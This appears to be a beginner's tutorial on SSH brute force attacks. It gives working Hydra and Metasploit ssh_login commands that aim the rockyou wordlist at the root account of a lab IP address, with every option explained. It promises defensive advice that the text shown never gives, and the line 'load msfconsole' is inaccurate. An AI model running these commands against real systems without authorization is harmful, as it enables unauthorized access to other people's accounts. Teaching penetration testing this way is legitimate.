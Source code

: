 # 🧱 Brute Force Attacks

### Understanding Brute Force Attacks: A Beginner's Guide

Brute force attacks are a common method employed by hackers to gain unauthorized access to systems, applications, or networks. These attacks involve systematically trying every possible password or passphrase until the correct one is discovered. Below is a beginner's guide to understanding and safeguarding against brute force attacks.

#### **How Brute Force Attacks Work**

1. **Iterative Password Guessing:**
   * Attackers systematically try every possible combination of passwords until the correct one is found.
   * This process is time-consuming but can be effective if the target's password is weak or easily guessable.
2. **Targeted Systems:**
   * Brute force attacks often target authentication mechanisms, such as login pages, SSH (Secure Shell) connections, or other entry points with password protection.
3.  **Automated Tools:**

    * Hackers use automated tools like Hydra and Metasploit to streamline and accelerate the brute force process.
    * These tools can test thousands of passwords per minute against a target system



    <figure><img src="https://gridinsoft.com/img/article/brute-force/brute-force-scheme.png" alt=""><figcaption></figcaption></figure>

#### **Hydra - Brute Force with SSH Example**

**Using Hydra:** Hydra is a versatile tool frequently used for brute force attacks. Here's an example of using Hydra for an SSH brute force attack:

```bash
hydra -l root -P /usr/share/wordlist/rockyou.txt ssh://192.168.179.129 -t 4 -V
```

* **`-l root`**: Specifies the username to be tested (root in this case).
* **`-P /usr/share/wordlist/rockyou.txt`**: Specifies the path to the password list (rockyou.txt is a common password list).
* **`ssh://192.168.179.129`**: Specifies the target SSH server.
* **`-t 4`**: Sets the number of parallel tasks to 4.
* **`-V`**: Enables verbose mode to provide detailed output.

#### **Metasploit - Brute Force with SSH Example**

**Using Metasploit:** Metasploit, a popular penetration testing framework, includes modules for various security tasks, including brute force attacks:

```bash
load msfconsole
search ssh
use scanner/ssh/ssh_login
set USERNAME root
set PASS_FILE /usr/share/wordlist/rockyou.txt
set RHOST 192.168.179.129
set THREADS 4
run
```

* **`load msfconsole`**: Opens the Metasploit console.
* **`search ssh`**: Searches for available SSH-related modules.
* **`use scanner/ssh/ssh_login`**: Selects the SSH login scanner module.
* **`set USERNAME root`**: Sets the target username.
* **`set PASS_FILE /usr/share/wordlist/rockyou.txt`**: Sets the path to the password list.
* **`set RHOST 192.168.179.129`**: Sets the target host.
* **`set THREADS 4`**: Sets the number of threads.
* **`run`**: Executes the brute force attack.

<figure><img src="https://www.akamai.com/site/fr/images/article/2023/how-a-brute-force-attack-works.png" alt=""><figcaption></figcaption></figure>
